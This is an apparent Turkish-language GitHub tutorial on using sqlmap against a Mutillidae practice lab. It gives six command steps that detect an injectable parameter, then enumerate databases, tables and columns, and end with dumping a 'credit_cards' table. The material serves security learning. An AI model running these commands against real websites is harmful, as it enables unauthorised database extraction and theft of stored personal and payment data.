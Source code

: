 # SQL Map 
### ```URL``` adresini verdiğimiz sitede SQL açığı var mı test eder
#### 1.``` sqlmap -u "http://123.123.123.123/mutillidae/index.php?&username=admin&password=123123&user-info-php-submit-button=View+Account+Details"```
#### 2. Bize eğer ```Get parameter 'username' is vulnerable. Do you want to keep testing the others (if any) Y/N``` derse "açık bulundu teste devam edeyim mi?" diye soruyordur
![](https://github.com/ahmetnuysal/Cyber-Security/blob/bf3a19821795b78ca5fed16e82ad334859214ecc/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2017.40.21.jpeg)
#### 3. ```sqlmap -u "http://123.123.123.123/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --current-db``` Güncel database'leri verir
![](https://github.com/ahmetnuysal/Cyber-Security/blob/c5a212ed129be0d8418261b677042d9c5e504e6d/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2017.47.09.jpeg)
#### 4. ```sqlmap -u "http://123.123.123.123/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --tables -D owasp10``` owasp10 içindeki tüm table'lları gösterir
![](https://github.com/ahmetnuysal/Cyber-Security/blob/83e78aeb040296afd4cb7b83cab56a7ddc988b92/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2018.29.34.jpeg)
#### 5. ```sqlmap -u "http://123.123.123.123/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --columns -T <tableismi> -D <databaseismi>``` Sütunları görmemizi sağlar
![](https://github.com/ahmetnuysal/Cyber-Security/blob/e2b4b92b35c22b60c442741dfc83a30892a2ae9f/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2018.32.11.jpeg)
#### 6. ```sqlmap -u "http://123.123.123.123/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" -T credit_cards -D owasp10 --dump``` Table içindeki verileri gösterir
![](https://github.com/ahmetnuysal/Cyber-Security/blob/d326716448fe5caa031175c9d6ac65a8dc08b1fb/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2018.34.27.jpeg)




